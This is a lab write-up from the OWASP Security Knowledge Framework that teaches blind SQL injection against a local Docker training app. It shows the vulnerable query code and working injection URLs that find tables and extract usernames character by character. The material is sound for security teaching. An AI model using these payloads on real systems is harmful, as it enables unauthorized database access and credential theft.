 # KBID 156 - SQLI \(Blind\)

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:sqli-blind
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sqli-blind
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](.gitbook/assets/sqli-blind-1.png)

```text
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](.gitbook/assets/sqli-blind-2.png)

```text
http://localhost:5000/home/1'
```

However, it's still not possile we can't see this as the application shows a 404 Error page.

### Step3

Now we need to inject logic operators to check if the application is vulnerable to SQL Injection.

First, we inject a logical operator which is true \(or 1=1\). This should result in the application run as intended without errors.

![](.gitbook/assets/sqli-blind-3.png)

```text
http://localhost:5000/home/1 OR 1=1
```

After that we inject a logical operator which is false \(and 1=2\). This should result in the application returning an error.

![](.gitbook/assets/sqli-blind-4.png)

```text
http://localhost:5000/home/1 AND 1=2--
```

By doing so we are sure the application has a SQL Injection vulnerability.

This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute('SELECT pageId, title, content FROM pages WHERE pageId='+pageId)
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

We need to determine which conditions are TRUE and FALSE for the application. By trial and error it's possible to determine the pageIDs 1,2 and 3 are valid, whereas 4 is not.

![](.gitbook/assets/sqli-blind-6.png)

```text
http://localhost:5000/home/1
```

![](.gitbook/assets/sqli-blind-5.png)

```text
http://localhost:5000/home/4
```

#### Step 2

Now, we need to inject a IF condition, returning 1 for the TRUE cases and 4 for the FALSE ones.

![](.gitbook/assets/sqli-blind-7.png)

```text
http://localhost:5000/home/(select case when 1=1 then 1 else 4 end)
```

#### Step 3

Next step is to add more logic to our injection and starting to retrieve information from data tables. Remember we will never view the data we are retrieving from the DB in the page, but we will do it by logicaly testing if the data exists.

Let's check if the table users exists.

![](.gitbook/assets/sqli-blind-9.png)

```text
http://localhost:5000/home/(select case when tbl_name='users' then 1 else 4 end from sqlite_master where type='table')
```

Good news! As we didn't see an error, it means the table _users_ exists.

By testing different table names, we will receive an 404 error, indicating the table does not exist.

![](.gitbook/assets/sqli-blind-8.png)

### Step 4

From the _user_ table is possible to see that the table contains the columns _UserId_ , _UserName_ and _Password_

![](.gitbook/assets/sqli-blind-10.png)

Let's try to extract a valid user. Instead of having a dictionary of possible users to guess, we can check if the first letter of the first user contains the letter _a_.

![](.gitbook/assets/sqli-blind-11.png)

```text
http://localhost:5000/home/(select case when substr(UserName,1,1)='a' then 1 else 4 end from users limit 0,1)
```

The error indicates it's not the case. Let's try with the letter _A_. Remember, case matters.

![](.gitbook/assets/sqli-blind-12.png)

```text
http://localhost:5000/home/(select case when substr(UserName,1,1)='A' then 1 else 4 end from users limit 0,1)
```

Yes, it matches!

As initial guess, _Admin_ could be a possible user. So, let's test this theory:

```text
http://localhost:5000/home/(select case when substr(UserName,2,1)='d' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,3,1)='m' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,4,1)='i' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,5,1)='n' then 1 else 4 end from users limit 0,1)
```

We made it! None of the requests above returned _404 Error_, so this indicates _Admin_ is a valid value.

Now that you know the logic, you can extract all UserNames stored within this table.

Why not dumping the whole database?

Don't forget to play with Limit numbers to fetch more records.

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)

SQLite Reference

[https://www.techonthenet.com/sqlite/sys\_tables/index.php](https://www.techonthenet.com/sqlite/sys_tables/index.php)


